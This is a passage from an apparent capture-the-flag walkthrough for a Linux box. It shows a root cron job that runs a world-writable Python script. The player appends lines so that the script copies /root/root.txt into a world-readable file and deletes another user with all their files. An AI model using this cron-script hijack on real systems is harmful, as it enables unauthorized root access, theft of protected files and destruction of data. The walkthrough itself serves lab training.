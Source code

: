 ```
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ ls -la /var/.the_eye_of_ruvik.py
-rwxr-xrw- 1 root root 300 Aug 14  2020 /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ touch /tmp/flag
kidman@evilwithin:~$ chmod 777 /tmp/flag
kidman@evilwithin:~$ echo 'subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)' >> /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)
kidman@evilwithin:~$ cat /tmp/flag
```

#### Delete ruvik

```
kidman@evilwithin:~$  echo 'subprocess.call("deluser --remove-all-files ruvik", shell=True)' >> /var/.the_eye_of_ruvik.py 
kidman@evilwithin:~$ 
kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)
subprocess.call("deluser --remove-all-files ruvik", shell=True)
```
